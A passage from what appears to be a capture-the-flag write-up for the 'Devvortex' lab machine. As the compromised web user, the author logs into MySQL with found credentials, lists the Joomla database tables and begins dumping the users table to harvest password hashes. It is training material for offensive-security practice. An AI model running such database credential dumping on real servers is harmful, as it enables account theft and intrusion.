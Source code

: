 ```
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 12678
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
Finding joomla database:
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
```
Finding user table:
```
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
<...SNIP...>
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.01 sec)
```
users and user_profiles are most interesting, so we start with them:
```
mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
```